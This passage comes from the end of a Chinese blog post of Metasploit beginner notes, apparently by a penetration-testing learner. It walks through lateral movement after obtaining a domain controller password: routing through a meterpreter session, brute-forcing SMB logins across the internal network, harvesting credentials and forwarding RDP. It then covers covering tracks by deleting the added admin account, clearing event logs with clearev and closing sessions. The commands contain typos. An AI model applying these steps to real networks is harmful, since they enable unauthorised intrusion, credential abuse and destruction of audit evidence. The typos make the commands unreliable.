

#### SMB爆破内网
有了DC的密码，接下来只需快速在内网扩大控制权限

- 利用当前获取的DC的账户密码，对整个域控的IP短进行扫描
- 使用SMB下的smb_login模块
- 端口转发或socks代理进内网

```bash
## 先在msf添加路由，然后使用smb_login模块Huo psexec_Scanner模块进行爆破
background
route add 192.168.0.115 255.255.255.0  2    # 目的是访问1192.168.0.115将通过meterpreter的会话 2 来访问：
search smb_login
use auxiliary/scanner/smb/smb_login
set ...
run

# 扫描内网
creds  # 然后获得大量内网服务器的密码，下面就可以畅游内网了

# 可以使用Meterpreter的端口转发，也可以使用Metasploit下的Socks4a模块或第三方软件(这里使用简单的第一种)
portfwd add -l 5555 -p 3389 -r 127.0.0.1
background
```


#### 清理日志
**步骤**
- 删除之前添加的域管理员的帐号
- 删除所有在渗透中使用的工具
- 删除应用程序、系统和安全日志
- 关闭所有的Meterpreter连接

```bash
net user test /dels
clearev    # 删除日志
sessions
sessions -K # 关闭所有msf连接
```













---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/metasploit%E5%88%9D%E5%AD%A6-%E6%95%A3%E8%AE%B0/  

